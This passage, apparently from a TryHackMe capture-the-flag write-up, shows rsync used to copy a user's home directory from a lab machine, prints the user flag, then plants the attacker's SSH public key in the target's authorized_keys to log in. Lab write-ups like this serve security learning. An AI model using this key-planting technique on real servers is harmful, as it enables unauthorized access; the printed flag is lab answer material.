 After the below command is executed, all the files will be copied in **/sys-internal/** directory in our local system&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ rsync -av rsync://rsync-connect@10.10.172.210/files user_files
Password: 
receiving incremental file list
created directory user_files
./
sys-internal/
sys-internal/.Xauthority
sys-internal/.bash_history -> /dev/null
sys-internal/.bash_logout
sys-internal/.bashrc
sys-internal/.dmrc
sys-internal/.profile
sys-internal/.rediscli_history -> /dev/null
sys-internal/.sudo_as_admin_successful
sys-internal/.xscreensaver
sys-internal/.xsession-errors
sys-internal/.xsession-errors.old
sys-internal/user.txt
```
{% endcode %}

We can view the user flag.

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ cat user_files/sys-internal/user.txt 
THM{da7c20696831f253e0afaca8b83c07ab}
```
{% endcode %}

### Gain shell access <a href="#gain-shell-access" id="gain-shell-access"></a>

While enumerating `sys-internal` files and directories, we found `.ssh` directory and we know that using `rsync` we can upload files. So we upload our `id_rsa.pub` to the `.ssh` directory using the command shown below.

{% code overflow="wrap" lineNumbers="true" %}
```bash
rsync ~/.ssh/id_rsa.pub rsync://rsync-connect@10.10.172.210/files/sys-internal/.ssh/authorized_keys
```
{% endcode %}

Now we can login with ssh to the server with our private key.

{% code overflow="wrap" lineNumbers="true" %}
```bash
ssh sys-internal@10.10.172.210 -i ~/.ssh/id_rsa
```
{% endcode %}
